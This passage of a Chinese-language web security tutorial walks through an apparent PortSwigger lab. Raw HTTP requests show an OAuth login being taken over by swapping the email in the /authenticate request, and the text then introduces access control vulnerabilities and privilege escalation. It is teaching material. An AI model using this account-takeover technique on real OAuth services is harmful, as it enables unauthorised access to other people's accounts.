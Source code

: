 Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"[email protected]","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}


从这个请求中，我们容易分析出授权的令牌信息即为 Token 的内容。现在我们已知一个用户的邮箱为[email protected]，尝试用如下报文实现对这个邮箱对应账户的登录。

POST /authenticate HTTP/1.1
Host: accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Cookie: session=4XXdLxkBBr2PHqqJiuogfnxTH5o84ixX
Content-Length: 103
Sec-Ch-Ua: "Chromium";v="95", ";Not A Brand";v="99"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://accd1fdc1ef72178c0ab064f006d0028.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"email":"[email protected]","username":"wiener","token":"G3dOwAKEb2Dg2UnFfoH2UjVpGIaq833HrGaJg2_nEWg"}


我们仅仅需要将用户的邮箱改为[email protected]，就可以尝试利用OAuth授权漏洞实现对其他用户账户的登录。



通过点击Request in browser，打开浏览器，看到我们已经成功登录上别人的账户。



这就是一个典型的OAuth授权漏洞，追究根本原因，就是因为它在对用户授权登录时使用了错误的账户验证方法。从上述示例中，我们已知OAuth漏洞的后果是非常严重的，所以做好OAuth授权机制非常重要。

到这里，你已经学习完了账户安全体系中关于OAuth授权机制相关的问题，接下来，让我们进入到对访问控制漏洞以及权限提升的学习中去吧！

访问控制漏洞及权限提升

作为Web应用的开发者，我们需要考虑哪些资源是哪种类型的用户可以访问的。举一个简单的例子，某网站的用户分为普通用户以及管理员，普通用户只可以查看及修改自己的资料，而管理员却可以查看及修改其他人的资料，这就是使用访问控制来实现的。

在如今的网络应用中，访问控制错误非常普遍，并且它往往会造成很严重的漏洞。那么什么是访问控制漏洞呢？

当攻击者可以通过一些恶意行为，使得他可以绕过访问控制，去执行一些Web应用不允许他执行的操作，这就是访问控制漏洞。例如，作为普通用户的攻击者无法查看和修改其他资料，但是攻击者可以通过一些手段，实现管理员才具有的权限操作，这就是一种权限提升的行为。

接下来，让我们看一个具体的示例：
